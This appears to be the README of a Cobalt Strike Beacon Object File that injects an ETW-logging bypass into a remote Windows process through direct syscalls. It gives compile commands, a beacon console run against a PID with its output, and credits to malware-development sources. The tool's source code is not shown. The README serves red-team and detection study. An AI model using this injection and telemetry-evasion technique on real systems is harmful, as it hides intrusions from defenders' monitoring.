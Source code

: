 ## Cobalt Strike BOF - Inject ETW Bypass
Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)

#### Running InjectEtwBypass BOF from CobaltStrike to Bypass ETW in Notepad.exe
  ![](images/injectEtw.png)

### Compile with x64 MinGW:
```bash
cat compile.sh
x86_64-w64-mingw32-gcc -m64 -mwindows -c injectEtwBypass.c -o injectEtwBypass.o -masm=intel -Wall -fno-asynchronous-unwind-tables -nostdlib -fno-ident -Wl,-Tlinker.ld,--no-seh
bash compile.sh
```

### Run from Cobalt Strike Beacon Console
```bash
beacon> help
    injectEtwBypass           Inject ETW Bypass into Remote Process via Syscalls (HellsGate|HalosGate)
beacon> help injectEtwBypass
Synopsis: injectEtwBypass PID
beacon> injectEtwBypass 8968
[*] Inject ETW Bypass (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 2336 bytes
[+] received output:
Injecting NTDLL.EtwEventWrite bypass in remote process: 8968 (PID)
```

## Credits / References
### ETW Bypass (Mass Credits to [Adam Chester (@\_xpn\_) of TrustedSec](https://twitter.com/_xpn_) 
+ [@\_xpn\_ Hiding Your .NET – ETW](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)
+ [ajpc500/BOFs](https://github.com/ajpc500/BOFs/)
+ [Offensive Security OSEP](https://www.offensive-security.com/pen300-osep/)
### HalosGate SysCaller
+ Reenz0h from @SEKTOR7net
  + Most of the C techniques I use are from Reenz0h's awesome courses and blogs 
  + Best classes for malware development out there.
  + Creator of the halos gate technique. His work was the motivation for this work.
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ @smelly__vx & @am0nsec ( Creators/Publishers of the Hells Gate technique )
  + Could not have made my implementation of HellsGate without them :)
  + Awesome work on this method, really enjoyed working through it myself. Thank you!
  + https://github.com/am0nsec/HellsGate 
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### BOF Helpers
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
### Great Resource for learning Intel ASM
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)
### Implementing ASM in C Code with GCC
+ [Outflank - Direct Syscalls in Beacon Object Files](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
+ https://www.cs.uaf.edu/2011/fall/cs301/lecture/10_12_asm_c.html
+ http://gcc.gnu.org/onlinedocs/gcc-4.0.2/gcc/Extended-Asm.html#Extended-Asm
